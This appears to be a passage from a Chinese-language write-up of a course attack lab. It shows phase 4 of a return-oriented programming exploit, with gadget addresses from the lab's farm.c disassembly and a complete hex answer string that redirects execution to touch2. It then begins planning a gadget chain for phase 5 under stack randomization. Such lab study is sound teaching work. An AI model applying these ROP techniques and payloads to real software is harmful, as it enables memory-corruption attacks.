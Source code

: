 在farm.c的反汇编代码里里面找得到：

4019cf:58 c3  pop    %rax  ret:
```c
00000000004019cc <setval_273>:
  4019cc:	c7 07 ef 58 c3 e1    	movl   $0xe1c358ef,(%rdi)
  4019d2:	c3 
```
4019c8:	89 c7 90 c3               	mov    %eax,%edi nop ret
```c
00000000004019c6 <getval_483>:
  4019c6:	b8 48 89 c7 90       	mov    $0x90c78948,%eax
  4019cb:	c3  
```

先调用 4019cf 地址下的 pop    %rax 取出栈里下一行的cookie ， 然后ret返回
再调用 4019c8 地址下的 mov    %eax,%edi 将cookie值传入寄存器edi中 ，nop 是不做任何操作 ， 然后ret返回
最后调用touch2()函数完成攻击。

答案就是:
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cf 19 40 00 00 00 00 00
9f ef 85 73 00 00 00 00
c8 19 40 00 00 00 00 00
d1 17 40 00 00 00 00 00
```

### phase5
确定最终目标:
```c
mov <字符串地址>  , %rdi
```
因为加上了栈随机，所以可以根据栈顶地址玩偏移。
现成的偏移函数:
```c
00000000004019f4 <add_xy>:
  4019f4:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019f8:	c3                   	retq  
```

所以现在要的目标为:
```c
mov %rsp,%rdi // 找到了
mov <偏移量>,%rsi
call 4019f4 <add_xy>
mov %rax,%rdi  // 找到了
<cooki字符串>
```
